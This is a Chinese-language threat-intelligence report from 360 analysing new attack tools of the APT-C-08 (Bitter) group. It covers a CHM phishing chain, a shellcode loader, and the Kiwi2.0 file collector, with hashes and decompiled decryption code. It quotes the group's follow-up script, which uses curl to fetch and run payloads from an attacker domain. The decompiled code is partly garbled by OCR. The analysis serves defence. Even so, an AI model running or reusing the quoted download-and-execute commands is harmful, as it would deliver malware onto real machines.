 # APT-C-08（蔓灵花）组织新型攻击组件分析报告  

原创高级威胁研究院360威胁情报中心2024年12月09日17:54北京  

# APT-C-08  

# 蔓灵花  

APT-C-08（蔓灵花）是一个拥有南亚地区政府背景的APT组织，近几年来持续对南亚周边国家进行网络攻击活动，攻击目标涉及政府、军工、高校和驻外机构等企事业单位组织。  

近期，360安全大脑监测到多起蔓灵花组织通过投递内部携带有chm恶意文档的压缩包附件的钓鱼邮件，诱导用户打开其中的chm文档，利用计划任务周期性回传受影响用户的机器名及用户名并同时下发后续攻击组件。  

## 攻击流程  

蔓灵花组织通过投递内部携带有chm恶意文档的压缩包附件的钓鱼邮件，诱导用户打开其中的chm文档，利用计划任务周期性回传受影响用户的机器名及用户名，当远端服务器验证回传信息后，通过响应请求将后续恶意脚本下发给受影响机器并执行，从而实现后续攻击组件的下发与执行。  

其攻击流程图如下图1-1所示:  

![](https://cdn-mineru.openxlab.org.cn/extract/80d6d2ab-8c1b-4b4a-af23-87f633835c9a/279de3b07f820837593cbf47712dbf490c94d2b2c7fc0a8eed37948491020fbe.jpg)  
图攻击流程  

在本次的攻击活动中，我们捕获到了蔓灵花组织使用的新型的攻击组件，分别是Shellcode加载器与文件收集器。因其都有pdb路径，故我们将其命名为KugelBlitz_ShellCode_Loader与Kiwi2.0.  

同时，我们获取到了蔓灵花组织下发的后续恶意脚本，如下图所示：  

cdC:\programdata   
curl -o dune64.log https://www.sporcketngearforu.com/dune64.bin   
ren dune64.log dune64.bin   
curl -o shl.tar.gz https://www.sporcketngearforu.com/shl.tar.gz   
tar -xzvf shl.tar.gz   
C:\programdata\shl.exe dune64.bin  

该脚本将通过curl从远端服务器上下载dune64.bin和shl.tar.gz，利用系统程序tar将shl.tar.gz包解压，且执行时传入命令行参数为dune64.bin。恶意样本shl.exe同样带有pdb,其实际为ShellCode加载器一一即加载远端下载的dune64.bin。  

# 二、 详细分析  

## 1.样本分析  

### 1) Kiwi2.0  

<html><body><table><tr><td>MD5</td><td>fd5f2cf4b8df27f27dc2e6bddc1a7b2e</td></tr><tr><td>路径</td><td>c:\programdata\kiwizig.exe</td></tr><tr><td>类型</td><td>PEEXE64</td></tr><tr><td>PDB</td><td>X:\Resource\VSRepo2\Kiwi2.0\Kiwi\x64\Release\Kiwi.pdb</td></tr></table></body></html>  

该样本属于文件信息收集器，在样本启动后首先将会创建命令行互斥量"rabadaisunique'以防止多开，在执行中动态解密相关字符串，其解密算法采用字符串反转 $^+$ 变种凯撒密码的组合。  

do v11 $=$ isalpha(\*(unsigned int16 $=1\times5$ v12 =\*(unsigned int16\*)v9; if (v11) f if（（unsigned _int16）（v12-97)<=0x19u) v13 =(v12 - 95) % 26+ 97;   
LABEL_15: \*（_WORD \*)v9=V13; goto LABEL_16; 1 if（ （unsigned_int16)（v12-65)<=0x19u) v13 =（v12-63)%26+65; goto LABEL_15; else if（isdigit（v12）) 1 v13 =（\*（unsigned_int16 \*)v9-46) $\yen10$ goto LABEL_15; 1   
LABEL_16: v9 =（_int64\*)（（char \*)v9 + 2）; 1 while （v9 !=v10 );  
